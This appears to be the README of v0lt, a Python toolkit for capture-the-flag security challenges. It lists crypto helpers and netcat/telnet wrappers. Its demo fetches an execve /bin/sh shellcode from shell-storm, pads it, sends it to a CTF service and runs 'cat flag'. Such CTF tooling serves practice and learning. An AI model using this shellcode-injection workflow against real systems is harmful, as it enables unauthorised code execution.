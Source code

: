 ![v0lt](https://raw.githubusercontent.com/P1kachu/v0lt/master/v0lt/assets/v0lt.png)

v0lt
====

v0lt is an attempt to regroup every tool I used/use/will use in security CTF, Python style. 
A lot of exercises were solved using bash scripts but Python may be more flexible, that's why.    

##Requirements and Installation    
####Dependencies:   
* Libmagic
* Python3    
  * BeautifulSoup    
  * Requests    

####Installation:   
```Bash
# for v0lt install
git clone https://github.com/P1kachu/v0lt.git     
cd v0lt    
[sudo] python3 setup.py install # sudo is required for potentially missing dependencies

# for V0lt and dependencies install
git clone https://github.com/P1kachu/v0lt.git     
cd v0lt    
chmod +x install.sh && ./install.sh
```

##Demo: Shellcodes
```Python
>>> from v0lt import *
>>> nc = Netcat("archpichu.ddns.net", 65102)
Connected to port 65102
>>> print(nc.read(1))
GIVE ME SHELLCODZ
>>> shellhack = ShellHack(4096, "bin","execve")
>>> shellhack.get_shellcodes(shellhack.keywords)

.
.
.
85: Linux/x86:setuid(0) & execve(/sbin/poweroff -f) - 47 bytes
86: Linux/x86:execve (/bin/sh) - 21 Bytes
87: Linux/x86:break chroot execve /bin/sh - 80 bytes
88: Linux/x86:execve(/bin/sh,0,0) - 21 bytes
.
.
.

Selection: 86
Your choice: http://shell-storm.org/shellcode/files/shellcode-752.php
Shellcode: "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62[...]"

>>> nc.shellcat(shellhack.shellcode)
>>> nc.writeln(shellhack.pad())
>>> exploit = nc.dialogue("cat flag", 3)
>>> print(exploit)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:
File name too long
P1kaCTF{sh3llc0de_1s_e4zY}
```
##Implemented:    
* Crypto    
    * Base64    
    * Ceasar shift    
    * Hashing functions (SHA, MD5)    
    * Bits manipulations (XOR, inverse XOR)    
    * Usual conversions (bytes, strings, hex)    
    * RSA basics (inverse modulo, inverse power, egcd...)
    * Bruteforcing

* Shellcodes    
    * Shellcode selection and download from Shell-storm repo    
    * Shellcode formater 
    * Shell{cat,net}: Sending shellcode made easy
    * Automatic padding

* Easy connection support    
    * Netcat    
    * Telnet    

And more

